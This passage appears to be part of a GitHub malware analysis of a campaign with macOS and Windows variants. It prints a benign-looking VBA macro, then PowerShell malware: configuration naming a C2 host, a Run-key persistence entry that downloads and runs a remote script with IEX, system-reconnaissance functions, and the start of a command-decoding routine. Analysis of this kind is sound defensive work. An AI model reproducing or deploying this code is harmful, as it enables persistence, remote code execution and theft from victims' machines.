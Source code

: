 ```vb
Sub shlet()
 Selection.WholeStory
 With Selection.Font
  .NameFarEast = "ÙºæýØÇ Û│áÙöò"
  .NameAscii = ""
  .NameOther = ""
  .Name = ""
  .Hidden = False
 End With
End Sub
Sub regpa()
 With Selection.ParagraphFormat
  .LeftIndent = CentimetersToPoints(2)
  .SpaceBeforeAuto = True
  .SpaceAfterAuto = True
 End With
 With Selection.ParagraphFormat
  .RightIndent = CentimetersToPoints(2)
  .SpaceBeforeAuto = True
  .SpaceAfterAuto = True
 End With
 Selection.PageSetup.TopMargin = CentimetersToPoints(2.5)
 Selection.PageSetup.BottomMargin = CentimetersToPoints(2.5)
End Sub
```
<h6>The first block of the Powershell script is the values used for the configuration (Persistence, URL to join, path of the files, for run payload...).</h6>

```csharp
$SERVER_ADDR = "http://mybobo.mygamesonline.org/flower01/"
$UP_URI = "post.php"
$upName = "flower01"
$LocalID = "flower01"
$LOG_FILENAME = "flower01.hwp"
$LOG_FILEPATH = "\flower01\"
$TIME_VALUE = 3600000
$EXE = "rundll32.exe"
$MyfuncName = "Run"
$RegValueName = "Alzipupdate"
$RegKey = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
$regValue = "cmd.exe /c powershell.exe -windowstyle hidden IEX (New-Object System.Net.WebClient).DownloadString('http://mybobo.mygamesonline.org/flower01/flower01.ps1')"
```

<h6>The next block is for getting the same informations that the MacOS version and for decode the commands send by the C2 to execute to the victim.</h6>

```csharp
function Get_info($logpath)
{
 Get-ChildItem ([Environment]::GetFolderPath("Recent")) >> $logpath
 dir $env:ProgramFiles >> $logpath
 dir "C:\Program Files (x86)" >> $logpath
 systeminfo >> $logpath
 tasklist >> $logpath
}
function decode($encstr)
{ 
 $key = [byte[]](0,2,4,3,3,6,4,5,7,6,7,0,5,5,4,3,5,4,3,7,0,7,6,2,6,2,4,6,7,2,4,7,5,5,7,0,7,3,3,3,7,3,3,1,4,2,3,7,0,2,7,7,3,5,1,0,1,4,0,5,0,0,0,0,7,5,1,4,5,4,2,0,6,1,4,7,5,0,1,0,3,0,3,1,3,5,1,2,5,0,1,7,1,4,6,0,2,3,3,4,2,5,2,5,4,5,7,3,1,0,1,6,4,1,1,2,1,4,1,5,4,2,7,4,5,1,6,4,6,3,6,4,5,0,3,6,4,0,1,6,3,3,5,7,0,5,7,7,2,5,2,7,7,4,7,5,5,0,5,6) 
 $len = $encstr.Length
 $j = 0
 $i = 0
```